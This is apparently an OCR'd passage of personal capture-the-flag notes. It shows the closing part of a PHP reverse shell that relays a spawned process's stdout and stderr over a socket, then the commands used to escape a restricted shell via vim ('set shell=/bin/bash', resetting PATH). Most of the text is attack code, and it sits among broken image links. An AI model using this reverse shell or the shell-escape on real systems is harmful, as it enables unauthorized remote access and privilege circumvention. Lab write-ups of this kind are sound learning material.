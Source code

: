 ``` php
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

![[Pasted image 20240315221650.png]]

## after that found that it's a resistricted shell so 

THis can be bypassed using the vim for more checkout GFTO bins or other bypass tricks

command used :

``` bash
set shell=/bin/bash

shell

export PATH=/bin/:/usr/bin/:/usr/local/bin:$PATH
```

![file:///tmp/.GM11K2/1.png](file:///tmp/.GM11K2/1.png)

![file:///tmp/.GM11K2/2.png](file:///tmp/.GM11K2/2.png)
